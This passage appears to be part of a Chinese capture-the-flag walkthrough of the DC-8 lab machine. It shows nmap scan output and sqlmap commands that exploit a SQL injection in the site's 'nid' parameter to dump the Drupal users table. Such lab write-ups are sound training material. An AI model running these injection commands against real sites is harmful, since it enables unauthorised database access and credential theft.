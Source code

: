 ```
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache
|_http-title: Welcome to DC-8 | DC-8
MAC Address: 00:0C:29:E9:F7:C1 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 199.639 days (since Sun Mar 21 07:35:43 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.30 ms 172.16.89.9

NSE: Script Post-scanning.
Initiating NSE at 22:55
Completed NSE at 22:55, 0.00s elapsed
Initiating NSE at 22:55
Completed NSE at 22:55, 0.00s elapsed
Initiating NSE at 22:55
Completed NSE at 22:55, 0.01s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现两个端口，22和80

## 0x03 渗透

浏览器登录，目标站点使用Drupal搭建

![image-20211006225718014](/assets/img/image-20211006225718014.png)

扫描目录，发现登陆界面：http://172.16.89.9/user，其他一些配置文件没有什么用

点击左侧连接发现存在参数nid

```
http://172.16.89.9/?nid=1
```

使用sqlmap扫描

```
sqlmap -u "http://172.16.89.9/?nid=1" --dbs
sqlmap -u "http://172.16.89.9/?nid=1" -D d7db --tables
sqlmap -u "http://172.16.89.9/?nid=1" -D d7db -T users --dump
```
